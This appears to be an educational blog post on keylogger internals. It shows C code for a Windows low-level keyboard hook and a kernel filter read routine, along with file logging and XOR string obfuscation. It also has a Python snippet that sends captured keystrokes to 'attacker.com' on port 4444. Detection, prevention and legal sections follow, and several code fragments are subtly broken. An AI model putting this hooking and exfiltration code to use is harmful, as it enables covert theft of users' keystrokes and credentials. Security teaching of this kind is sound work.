 layout: post
title: "Understanding Keylogger Mechanics"
date: 2025-09-28
category: "Malware Analysis"
reading_time: 10
excerpt: "Deep dive into keylogger implementation techniques, from Win32 API hooks to kernel-mode drivers, and how to detect them."
---

## Introduction

Keyloggers are one of the most common forms of malware, designed to capture every keystroke a user types. Understanding how they work is essential for both offensive security research and defensive measures.

## Types of Keyloggers

### 1. User-Mode Keyloggers

**SetWindowsHookEx Method**

The most common user-mode approach:

```c
HHOOK hKeyboardHook;

LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode >= 0) {
        if (wParam == WM_KEYDOWN) {
            KBDLLHOOKSTRUCT *kbdStruct = (KBDLLHOOKSTRUCT*)lParam;
            DWORD vkCode = kbdStruct->vkCode;
            
            // Log the key
            LogKeyToFile(vkCode);
        }
    }
    return CallNextHookEx(hKeyboardHook, nCode, wParam, lParam);
}

void InstallHook() {
    hKeyboardHook = SetWindowsHookEx(
        WH_KEYBOARD_LL,
        KeyboardProc,
        GetModuleHandle(NULL),
        0
    );
}
```

**Pros and Cons:**
- ✅ Easy to implement
- ✅ No admin privileges required
- ❌ Easily detectable
- ❌ Can be bypassed by secure input

### 2. Kernel-Mode Keyloggers

More sophisticated approach using keyboard filter drivers:

```c
NTSTATUS DispatchRead(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
    PIO_STACK_LOCATION irpStack;
    PKEYBOARD_INPUT_DATA keyData;
    
    irpStack = IoGetCurrentIrpStackLocation(Irp);
    keyData = (PKEYBOARD_INPUT_DATA)Irp->AssociatedIrp.SystemBuffer;
    
    // Capture keystrokes at kernel level
    LogKeystroke(keyData->MakeCode, keyData->Flags);
    
    return STATUS_SUCCESS;
}
```

**Advantages:**
- ✅ Hard to detect from user-mode
- ✅ Survives process termination
- ❌ Requires admin/system privileges
- ❌ Can cause system instability

## Data Exfiltration Techniques

### File-Based Logging

```c
void LogKeyToFile(DWORD vkCode) {
    FILE *file = fopen("C:\\Windows\\Temp\\log.txt", "a");
    
    char key = MapVirtualKey(vkCode);
    fprintf(file, "%c", key);
    
    fclose(file);
}
```

### Network Exfiltration

```python
import socket
import json

def send_keylog(data):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(('attacker.com', 4444))
    
    payload = json.dumps({
        'timestamp': time.time(),
        'data': data
    })
    
    sock.send(payload.encode())
    sock.close()
```

## Detection Methods

### 1. Process Monitoring

Look for suspicious hook installations:

```python
import psutil

def detect_hooks():
    for proc in psutil.process_iter(['pid', 'name']):
        try:
            # Check for SetWindowsHookEx calls
            # Analyze loaded DLLs
            pass
        except:
            pass
```

### 2. Memory Forensics

Using Volatility framework:

```bash
# Detect keyboard hooks
volatility -f memory.dmp --profile=Win7SP1x64 windows.keyboard

# Analyze driver objects
volatility -f memory.dmp --profile=Win7SP1x64 windows.driverscan
```

### 3. Behavioral Analysis

Monitor for:
- High-frequency file writes
- Unusual network connections
- Registry modifications in `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`

## Prevention Strategies

### For Users
1. Use anti-keylogger software (KeyScrambler)
2. Enable two-factor authentication
3. Use virtual keyboards for sensitive input
4. Regular malware scans

### For Developers
1. Implement secure input methods
2. Use anti-hooking techniques
3. Encrypt sensitive data in memory
4. Validate code signatures

## Advanced Evasion Techniques

Modern keyloggers employ:

**1. Code Obfuscation**
```c
// XOR encryption of strings
char encrypted[] = {0x12, 0x45, 0x67, ...};
char key = 0xAA;

for (int i = 0; i < sizeof(encrypted); i++) {
    encrypted[i] ^= key;
}
```

**2. Polymorphic Code**
- Self-modifying code
- Dynamic API resolution
- Encrypted payloads

**3. Rootkit Integration**
- Hide processes
- Hide files
- Hide registry keys

## Legal and Ethical Considerations

⚠️ **Important**: Developing or deploying keyloggers without authorization is illegal in most jurisdictions. This information is for:
- Security research
- Defensive purposes
- Educational understanding

Always obtain proper authorization and work within legal boundaries.

## Conclusion

Understanding keylogger mechanics is crucial for cybersecurity professionals. While these tools can be used maliciously, knowledge of their operation enables better defense strategies and malware analysis capabilities.

### Detection Tools
- Process Monitor (Sysinternals)
- Wireshark (network monitoring)
- Volatility (memory forensics)
- GMER (rootkit detection)